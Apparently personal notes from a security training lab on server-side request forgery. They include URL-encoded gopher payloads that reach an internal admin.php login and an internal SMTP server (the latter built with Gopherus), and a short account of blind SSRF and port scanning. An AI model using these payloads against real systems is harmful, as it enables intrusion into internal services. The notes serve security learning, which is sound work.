 ```js
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```
We can use the goher protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where identify, though an SSRF vulnerability, that TCP port 25 is open locally. This is teh standard port for SMTP server.
We can use Gopher to interact with this internal SMTP server as well. Constructing syntactially and sematically correct gopher URLs can take
tiem and effort. Gospherus support:
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

For run the tool we nee valid Python2. and we can  run the gopherus.
```sh
Give Details to send mail:

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail:

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

Exercise:
Attack with gophous:
gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin

# Blind SSRF:
In many real-word: SSRF vulnerabilities, the response is not directly displayed, These instance are called blind SSRF vulnerabilities cause  we cannot see the reponse, all the explotation vectors discussed in the previus section are unaviable
to us cause they all rely on us begin able to inspect the response.
- identifying Blind SSRF:
The sample web app behaves just like in the previus section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a netcat.
- explotation Blind SSRF:
Is generraly severely limited compared to non-blind SSRF vulnerabilities. Depending on the web app behavior, we might be able top conduct a restricted local port scan of the system, provide
the response differs for open and close ports. The web app responsds with SOmethion wen wrong for close ports:
Depending on how the web app catches unexpected errors, we might be unable to identify running services that fo not reponds with valid HTTP responses, We are unable to identify the running MySql service using this tech.
